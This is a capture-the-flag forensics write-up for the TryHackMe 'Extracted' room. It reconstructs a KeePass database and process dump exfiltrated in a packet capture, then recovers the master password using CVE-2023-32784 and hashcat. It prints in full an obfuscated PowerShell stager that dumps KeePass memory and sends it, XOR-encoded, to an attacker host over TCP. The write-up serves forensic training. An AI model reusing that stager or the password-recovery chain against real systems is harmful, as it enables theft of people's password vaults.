








## Overview

[Extracted](https://tryhackme.com/room/extractedroom) is a network forensics room: all we get is `traffic.pcapng`. A Windows host pulls down an obfuscated PowerShell script, which dumps the running KeePass process and ships both the dump and the `.kdbx` database out over TCP, XORed and base64-encoded. We rebuild both files from the capture, recover most of the master password from the dump with CVE-2023-32784, and brute-force the one character it can't give us.

## Traffic Triage

The capture is small enough to just open in Wireshark and scroll. Near the very top there's an HTTP request from `10.10.45.95` to `10.10.94.106` on port `1339`, for a file called `xxxmmdcclxxxiv.ps1`.



A PowerShell script fetched from a non-standard port with a nonsense name is about as suspicious as it gets, so I followed the HTTP stream to see what came back:

```http
GET /xxxmmdcclxxxiv.ps1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.4720
Host: 10.10.94.106:1339
Connection: Keep-Alive


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.6.9
Date: Tue, 29 Aug 2023 02:29:22 GMT
Content-type: application/octet-stream
Content-Length: 11195
Last-Modified: Tue, 29 Aug 2023 00:21:13 GMT
```

The `WindowsPowerShell/5.1` user agent on the client and a Python `SimpleHTTP` server on the other end say it all: a victim running `Invoke-WebRequest` against a throwaway attacker web server.

## The Stager Script

Here's the full body of the response. I've left the code as-is but trimmed the big blocks of random-word comments (more on those below).

```powershell
$YVVbq4INVpT2ADzETTRQBehLUkHxKpLuTuE9jklcRUZDa9fhhd8HRzK57GJI26Cs6v7SAMiK2GXp7mMvzsV7qIPs1DTarmxGhksMkk3AzMNVSr1DkFjeU7uC9IkX4LmCgcf5WJq9IxdJaQQdYDe3hLWeNYYedtnq2v8PXkcazTsBQvHVwiZVNxOYZJMT7Ypf8oAgoowbVJOomFKTSbORFXB5axgap0UVFljH4sru7RR9BnSbaFYW6Rscken6dHoyzAwh7Qu77s6NV0A51ypqhwjfM97HZ3eWqpGeQu1JSaKO5pR4IFUjMzxzwN5bIwClsLGRfOn1u69Os3mbaodo7vII6UZ9ssYhSmHr6bCBC0QWBh7UoMdh8O1eo2Ag8LqSuoNRydR68w76xlQwYUlp5v1h3MlndKWqNPUuB0zz7y2IZgPdWB88JKB4AmeOEzNEzXQrdzLeqDYGZalwjiQaApHRWL1wtSygnYAPHu9XhJ7Bg4tbJ9kNmhZpfdZIcmNSjj7xwL3KUiv1u5taf4sctjFNtkifMtCaIZWTxFiHUeGhLsvAHnanWMRHEpnBT5KjoH4QeFQxD88DwlKZkH1VKZjA8yaDl = "GetBytes"

$o3EEYUbWq9GC4APhq0YJKs0yAIjwljcCw5jAgmbR4ZarPxq8jeaNvBt6FWA5ILVnsAmO2zIqCtuJENYOr7r2LMP8MCKjq0qEhR5a7EzhKuVhafEyZnnLm0R0llwcvDTD36tu0Pbe5kTnvHMU81tMJmF6fsSqIVF6rA23ZB4zZpCoxLaUFaIK6Gj1tDL6uzus89sVTkEumb3zg41zgQzzRYITq1f6H5lOEic8FUYlnWPFdHSq4YV7FwIcwIUuBJoJpfdVwlcelPL1Mcb0Yr7hkRK9KJcscbEwKLfaYalivZDZHXbnCD8p1jjgPVp5UhSII7NkjMCq7221BUEDTUZONqKUV7WtKBSf1KPAECnm6YXSmS6LOK17OweylFJnzKENwcdXrukFwIyPDeQ2PX2iedBwltSgp1AAlV2Vm0AdOl0ler6ozC2bmXthJjXEi54gEL29BZLRqAFIplkyjwpf8XDdgsEZQYTfVi2v8mqJpodPy9ByThCPj9X7FJmjjUFHBUUAit68cRdbr2kDUjT7uiWac0eNNEw7uUGc36rULO8RwF25W6zJYT9fK6HTjG073LILvwwTjM20b9Qg4EhAVld6SBlodCTqYKHatqncBKVvdWVnb7l20Bvs4UvZpN6nhQT0xmlp6Qh3JFzJuJtHD45nB0Kx9frRj0zD7RB0M3eQybPJt0bE0mTzU4fK = ($YVVbq4INVpT2ADzETTRQBehLUkHxKpLuTuE9jklcRUZDa9fhhd8HRzK57GJI26Cs6v7SAMiK2GXp7mMvzsV7qIPs1DTarmxGhksMkk3AzMNVSr1DkFjeU7uC9IkX4LmCgcf5WJq9IxdJaQQdYDe3hLWeNYYedtnq2v8PXkcazTsBQvHVwiZVNxOYZJMT7Ypf8oAgoowbVJOomFKTSbORFXB5axgap0UVFljH4sru7RR9BnSbaFYW6Rscken6dHoyzAwh7Qu77s6NV0A51ypqhwjfM97HZ3eWqpGeQu1JSaKO5pR4IFUjMzxzwN5bIwClsLGRfOn1u69Os3mbaodo7vII6UZ9ssYhSmHr6bCBC0QWBh7UoMdh8O1eo2Ag8LqSuoNRydR68w76xlQwYUlp5v1h3MlndKWqNPUuB0zz7y2IZgPdWB88JKB4AmeOEzNEzXQrdzLeqDYGZalwjiQaApHRWL1wtSygnYAPHu9XhJ7Bg4tbJ9kNmhZpfdZIcmNSjj7xwL3KUiv1u5taf4sctjFNtkifMtCaIZWTxFiHUeGhLsvAHnanWMRHEpnBT5KjoH4QeFQxD88DwlKZkH1VKZjA8yaDl)
$PRoCDumppATh = 'C:\Tools\procdump.exe'
if (-Not (Test-Path -Path $PRoCDumppATh)) {
    $ProcdUmpDOWNloADURL = 'https://download.sysinternals.com/files/Procdump.zip'
    $PrOcdUmpziPpaTH = Join-Path -Path $env:TEMP -ChildPath 'Procdump.zip'
    Invoke-WebRequest -Uri $ProcdUmpDOWNloADURL -OutFile $PrOcdUmpziPpaTH
    Expand-Archive -Path $PrOcdUmpziPpaTH -DestinationPath (Split-Path -Path $PRoCDumppATh -Parent)
    Remove-Item -Path $PrOcdUmpziPpaTH
}

$dESKTopPATH = [systEM.EnviROnMent]::GetFolderPath('Desktop')
$KEEPASsPrOCesS = Get-Process -Name 'KeePass'

if ($KEEPASsPrOCesS) {
    $dUmPFilEpath = Join-Path -Path $dESKTopPATH -ChildPath '1337'
    $dUmPFilEpath = [SySteM.io.PaTh]::GetFullPath($dUmPFilEpath)

    $ProcStArtiNFO = New-Object System.Diagnostics.ProcessStartInfo
    $ProcStArtiNFO.FileName = $PRoCDumppATh
    $ProcStArtiNFO.Arguments = "-accepteula -ma $($KEEPASsPrOCesS.Id) `"$dUmPFilEpath`""
    $ProcStArtiNFO.RedirectStandardOutput = $tRuE
    $ProcStArtiNFO.RedirectStandardError = $tRuE
    $ProcStArtiNFO.UseShellExecute = $False
    $pROC = New-Object System.Diagnostics.Process
    $pROC.StartInfo = $ProcStArtiNFO
    $pROC.Start()

    while (!$pROC.HasExited) {
        $pROC.WaitForExit(1000)

        $STdOUTPUT = $pROC.StandardOutput.ReadToEnd()

        if ($STdOUTPUT -match "Dump count reached") {
            break
        }
    }

    $inPutFiLEName = '1337.dmp'
    $inPUTfilEpath = Join-Path -Path $dESKTopPATH -ChildPath $inPutFiLEName
    if (Test-Path -Path $inPUTfilEpath) {
        $xoRKEy = 0x41 

        $oUTPutfiLeNAMe = '539.dmp'
        $ouTputFILEPath = Join-Path -Path $dESKTopPATH -ChildPath $oUTPutfiLeNAMe

        $duMpBYtES = [sySTEm.io.fIlE]::ReadAllBytes($inPUTfilEpath)
        for ($i = 0; $i -lt $duMpBYtES.Length; $i++) {
            $duMpBYtES[$i] = $duMpBYtES[$i] -bxor $xoRKEy
        }

        $bASE64enCoDeD = [SYstem.cOnveRT]::ToBase64String($duMpBYtES)

        $fILEstrEAm = [sySTEm.io.fIlE]::Create($ouTputFILEPath)
        $BYtesTowRite = [sysTEm.Text.eNcOdINg]::UTF8.$o3EEYUbWq9GC4APhq0YJKs0yAIjwljcCw5jAgmbR4ZarPxq8jeaNvBt6FWA5ILVnsAmO2zIqCtuJENYOr7r2LMP8MCKjq0qEhR5a7EzhKuVhafEyZnnLm0R0llwcvDTD36tu0Pbe5kTnvHMU81tMJmF6fsSqIVF6rA23ZB4zZpCoxLaUFaIK6Gj1tDL6uzus89sVTkEumb3zg41zgQzzRYITq1f6H5lOEic8FUYlnWPFdHSq4YV7FwIcwIUuBJoJpfdVwlcelPL1Mcb0Yr7hkRK9KJcscbEwKLfaYalivZDZHXbnCD8p1jjgPVp5UhSII7NkjMCq7221BUEDTUZONqKUV7WtKBSf1KPAECnm6YXSmS6LOK17OweylFJnzKENwcdXrukFwIyPDeQ2PX2iedBwltSgp1AAlV2Vm0AdOl0ler6ozC2bmXthJjXEi54gEL29BZLRqAFIplkyjwpf8XDdgsEZQYTfVi2v8mqJpodPy9ByThCPj9X7FJmjjUFHBUUAit68cRdbr2kDUjT7uiWac0eNNEw7uUGc36rULO8RwF25W6zJYT9fK6HTjG073LILvwwTjM20b9Qg4EhAVld6SBlodCTqYKHatqncBKVvdWVnb7l20Bvs4UvZpN6nhQT0xmlp6Qh3JFzJuJtHD45nB0Kx9frRj0zD7RB0M3eQybPJt0bE0mTzU4fK($bASE64enCoDeD)
        $fILEstrEAm.Write($BYtesTowRite, 0, $BYtesTowRite.Length)
        $fILEstrEAm.Close()


        $sERveRIP = "0xa0a5e6a"
        $SeRvERpORT = 1337

        $fIlEpaTH = $ouTputFILEPath

        try {
            $ClIENt = New-Object System.Net.Sockets.TcpClient
            $ClIENt.Connect($sERveRIP, $SeRvERpORT)

            $fILEstrEAm = [sySTEm.io.fIlE]::OpenRead($fIlEpaTH)

            $nETwoRKStReAM = $ClIENt.GetStream()

            $BuFFEr = New-Object byte[] 1024  # imT nGTBC diItSxVKpYWJL TeZLvvBXAdCN uQGWDbkuFDaRns LqvajwUxqrITd iBFmfkEpI RHcIrbkUSwA
#   [... 15 more lines of random-word junk comments trimmed ...]

            while ($tRuE) {
                $byTesrEAD = $fILEstrEAm.Read($BuFFEr, 0, $BuFFEr.Length)
                if ($byTesrEAD -eq 0) {
                    break
                }

                $nETwoRKStReAM.Write($BuFFEr, 0, $byTesrEAD)
            }

            $nETwoRKStReAM.Close()
            $fILEstrEAm.Close()


        } catch {
            Write-Host "An error occurred: $_.Exception.Message"
        } finally {
            $ClIENt.Close()
        }

    } else {
        Write-Host "Input file not found: $inPUTfilEpath"
    }

    $inPutFiLEName = 'Database1337.kdbx'
    $inPUTfilEpath = Join-Path -Path $dESKTopPATH -ChildPath $inPutFiLEName
    if (Test-Path -Path $inPUTfilEpath) {
        $xoRKEy = 0x42 

        $oUTPutfiLeNAMe = 'Database1337'
        $ouTputFILEPath = Join-Path -Path $dESKTopPATH -ChildPath $oUTPutfiLeNAMe

        $duMpBYtES = [sySTEm.io.fIlE]::ReadAllBytes($inPUTfilEpath)
        for ($i = 0; $i -lt $duMpBYtES.Length; $i++) {
            $duMpBYtES[$i] = $duMpBYtES[$i] -bxor $xoRKEy
        }

        $bASE64enCoDeD = [SYstem.cOnveRT]::ToBase64String($duMpBYtES)

        $fILEstrEAm = [sySTEm.io.fIlE]::Create($ouTputFILEPath)
        $BYtesTowRite = [sysTEm.Text.eNcOdINg]::UTF8.$o3EEYUbWq9GC4APhq0YJKs0yAIjwljcCw5jAgmbR4ZarPxq8jeaNvBt6FWA5ILVnsAmO2zIqCtuJENYOr7r2LMP8MCKjq0qEhR5a7EzhKuVhafEyZnnLm0R0llwcvDTD36tu0Pbe5kTnvHMU81tMJmF6fsSqIVF6rA23ZB4zZpCoxLaUFaIK6Gj1tDL6uzus89sVTkEumb3zg41zgQzzRYITq1f6H5lOEic8FUYlnWPFdHSq4YV7FwIcwIUuBJoJpfdVwlcelPL1Mcb0Yr7hkRK9KJcscbEwKLfaYalivZDZHXbnCD8p1jjgPVp5UhSII7NkjMCq7221BUEDTUZONqKUV7WtKBSf1KPAECnm6YXSmS6LOK17OweylFJnzKENwcdXrukFwIyPDeQ2PX2iedBwltSgp1AAlV2Vm0AdOl0ler6ozC2bmXthJjXEi54gEL29BZLRqAFIplkyjwpf8XDdgsEZQYTfVi2v8mqJpodPy9ByThCPj9X7FJmjjUFHBUUAit68cRdbr2kDUjT7uiWac0eNNEw7uUGc36rULO8RwF25W6zJYT9fK6HTjG073LILvwwTjM20b9Qg4EhAVld6SBlodCTqYKHatqncBKVvdWVnb7l20Bvs4UvZpN6nhQT0xmlp6Qh3JFzJuJtHD45nB0Kx9frRj0zD7RB0M3eQybPJt0bE0mTzU4fK($bASE64enCoDeD)
        $fILEstrEAm.Write($BYtesTowRite, 0, $BYtesTowRite.Length)
        $fILEstrEAm.Close()


        $sERveRIP = "0xa0a5e6a"
        $SeRvERpORT = 1338

        $fIlEpaTH = $ouTputFILEPath 

        try {
            $ClIENt = New-Object System.Net.Sockets.TcpClient
            $ClIENt.Connect($sERveRIP, $SeRvERpORT)

            $fILEstrEAm = [sySTEm.io.fIlE]::OpenRead($fIlEpaTH)

            $nETwoRKStReAM = $ClIENt.GetStream()

            $BuFFEr = New-Object byte[] 1024  # xLBnEWmxGxOo prkALsTpi eRciFXl RucgyRKek vwesYhxroTGu PmH rLuasCRS QiCCOAyeoZo fFDiBhlB
#   [... 14 more lines of random-word junk comments trimmed ...]

            while ($tRuE) {
                $byTesrEAD = $fILEstrEAm.Read($BuFFEr, 0, $BuFFEr.Length)
                if ($byTesrEAD -eq 0) {
                    break
                }

                $nETwoRKStReAM.Write($BuFFEr, 0, $byTesrEAD)
            }

            $nETwoRKStReAM.Close()
            $fILEstrEAm.Close()


        } catch {
            Write-Host "An error occurred: $_.Exception.Message"
        } finally {
            $ClIENt.Close()
        }

    } else {
        Write-Host "Input file not found: $inPUTfilEpath"
    }
} else {
    Write-Host "KeePass is not running."
}
```

The obfuscation is cosmetic once you read past it. Every identifier is in random mixed case, and the two absurdly long variables are just indirection: the first holds the string `"GetBytes"`, the second copies it, and `[System.Text.Encoding]::UTF8.$o3EE...(...)` calls `UTF8.GetBytes()` by name so the method never appears in plain text. The comment walls are pure padding.

Stripped down, it does this:

- Makes sure `procdump.exe` is in `C:\Tools`, pulling it from Sysinternals if not.
- If `KeePass` is running, full-dumps it (`-ma`) to `1337.dmp` on the Desktop.
- XORs every byte of the dump with `0x41`, base64-encodes the result, writes it to `539.dmp`, and streams that to the C2 on port `1337`.
- Does the same to `Database1337.kdbx` with key `0x42`, sending it to port `1338`.

The C2 address is hidden as the string `0xa0a5e6a`. Decoding it as a hex IP lands right back on the box that served the script:



The Conversations view in Wireshark matches the script exactly: three streams, one per port.



Stream 1 (port `1337`, the process dump) is 53,314 packets and 390 MB. Stream 2 (port `1338`, the database) is 9 packets and 3 kB. We need both: the database holds the flag and the dump should hold its master password.

## Recovering the KeePass Database

The database is the easy one, so I started there. Follow TCP Stream on stream 2, switch "Show as" to Raw, and save it out.



Into CyberChef with the saved file (`1338.txt`, 2,688 bytes) as input, reversing the script's steps: From Base64, then XOR with `42`, then To Hex so I could eyeball the header.



The output starts `03 d9 a2 9a 67 fb 4b b5`. The KDBX format spec says the first signature must be `0x9AA2D903`:



Same bytes, reversed, because the field is a little-endian `UInt32`. The next four (`67 fb 4b b5`) are the second signature, `0xB54BFB67`, read the same way. It's a KDBX.

I saved the CyberChef output as `database.kdbx`. Since the recipe ends in To Hex, that file is ASCII hex text rather than the binary database, and neither KeePass nor `keepass2john` can use it in that form. `xxd -r -p` turns the hex back into raw bytes:

```bash
xxd -r -p database.kdbx > database_bin.kdbx
```


Now it's a real KeePass 2.x database. All it needs is the master password.

## Recovering the Master Password

### Carving the dump out of stream 1

Following a 390 MB stream in the Wireshark GUI takes a long time, so I went to `tshark` for this one. The first version reuses the follow logic:

```bash
tshark -r traffic.pcapng -q -z follow,tcp,ascii,1 > in.raw
```

It works, but `tshark` prepends its own header to the output, which has to be cleaned off before the base64 decodes:

```text
===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 1
Node 0: 10.10.45.95:50357
Node 1: 10.10.94.106:1337
1024
DAUMEdLmIuFTQUFBYUFBQUFBQUFCGawlZ1kHQUFBQUFCQUFBVUNBQcVHQUFQQUFBjUNBQd...
```

The version I ended up using skips the follow machinery and pulls only the TCP payload bytes headed for the C2 on `1337`:

```bash
tshark -r traffic.pcapng -Y "tcp.port == 1337 && ip.dst == 10.10.94.106" -T fields -e data | xxd -r -p > in.raw
```

`-Y` is the display filter (destination address and port), `-e data` prints just the payload of each packet as hex, and `xxd -r -p` turns that hex back into raw bytes. No header, nothing to clean up.

> For bulk exfil streams, `-T fields -e data | xxd -r -p` gives you clean bytes in one go, without the `-z follow` header to strip off.
{: .prompt-tip }

Then a few lines of Python to undo the encoding, base64 first and XOR `0x41` second:

```python
import base64, sys

inp, out = sys.argv[1], sys.argv[2]

with open(inp, 'rb') as f:
    data = f.read()

decoded = base64.b64decode(data)
xored = bytes(b ^ 0x41 for b in decoded)

with open(out, 'wb') as f:
    f.write(xored)
```

```text
% file out.raw
out.raw: Mini DuMP crash report, 18 streams, Tue Aug 29 02:29:23 2023, 0x461826 type
```

A minidump, timestamped one second after the script download. Exactly what procdump should have produced.

### Strings first

Before reaching for anything dedicated, I gave `strings` a shot in case the password or flag was just sitting there:

```bash
strings -n 10 out.raw | less
strings out.raw | grep password
strings out.raw | grep THM
```

Way too much output to be useful. A 390 MB process dump is mostly noise to `strings`, so I parked it.

### CVE-2023-32784

KeePass 2.x before 2.54 leaks the master password into process memory as you type it: each keystroke leaves behind a string of placeholder characters followed by the latest character, and those leftovers stick around in the heap. That's CVE-2023-32784, and there are a bunch of PoCs for it. I used [keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey). Volatility 3 is an option too if you have a full memory image, but that's not what we have here: this is a single-process minidump.

```text
% python3 poc.py ../out.dmp
2026-10-04 19:13:46,270 [.] [main] Opened ../out.dmp
Possible password: <PARTIAL_PASS>
```

Everything came back except the first character, which is a known limitation of this bug: the first keystroke doesn't leave a recoverable trace. One unknown character is a tiny keyspace, so cracking is the way to finish it.

### Cracking the first character

Extract the hash from the binary database we rebuilt earlier:

```bash
keepass2john database_bin.kdbx > hash.txt
```

```text
database_bin:$keepass$*2*60000*0*<KEEPASS_HASH_REST>
```

`keepass2john` prefixes the hash with the filename, and hashcat doesn't want that, so I deleted `database_bin:` to leave a bare `$keepass$*2*60000*0*...` line. (`--username` in hashcat would also work.)

Then the partial password goes into a one-line wordlist:

```bash
echo "<PARTIAL_PASS>" > wordlist.txt
```

Hashcat's hybrid mode `-a 7` puts a mask *in front of* each wordlist entry, which is exactly the shape of the problem: one unknown character (`?a`) followed by the known rest. `-m 13400` is KeePass.

```bash
hashcat -a 7 -m 13400 hash.txt '?a' wordlist.txt
```

You could do the same thing with pure mask mode (`-a 3`) by spelling out the known part in the mask itself. I only ran the hybrid version.

```text
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13400 (KeePass 1 (AES/Twofish) and KeePass 2 (AES))
Hash.Target......: <KEEPASS_HASH>
Time.Started.....: Sun Oct  4 19:40:26 2026 (5 secs)
Time.Estimated...: Sun Oct  4 19:40:31 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: <redacted> [23]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       16 H/s (0.04ms) @ Accel:256 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 81/95 (85.26%)
```

Cracked in 5 seconds, 81 of 95 candidates in. At 16 H/s thanks to 60,000 AES rounds, that's about as fast as it gets, and a good reminder of why you don't want to brute-force more than a character or two of a KeePass master password.

With `<KEEPASS_PASS>` the database opens:



> The flag is in the Notes field of the "You win!" entry: `THM{...}`
{: .prompt-info }

## Conclusion

1. A victim host ran a PowerShell stager fetched over plain HTTP, so the whole script was sitting in the capture in cleartext.
2. The stager's obfuscation (random casing, indirected method names, junk comments, hex-encoded IP) hid nothing from a human reading it.
3. The "encryption" on the exfil was a single-byte XOR plus base64, with both keys hardcoded in that same cleartext script.
4. The dump came from a KeePass build vulnerable to CVE-2023-32784, which leaked all but the first character of the master password.
5. One missing character is a 95-candidate keyspace; hashcat's hybrid mode cleared it in seconds.



**Tools used**

| Stage | Tools |
|---|---|
| Traffic triage | Wireshark |
| Stager analysis | CyberChef (hex IP) |
| KDBX recovery | Wireshark Follow TCP Stream, CyberChef, `xxd`, `file` |
| Dump recovery | `tshark`, `xxd`, Python, `file`, `strings` |
| Master password | keepass-dump-masterkey, `keepass2john`, hashcat |
| Opening the DB | KeePassXC |
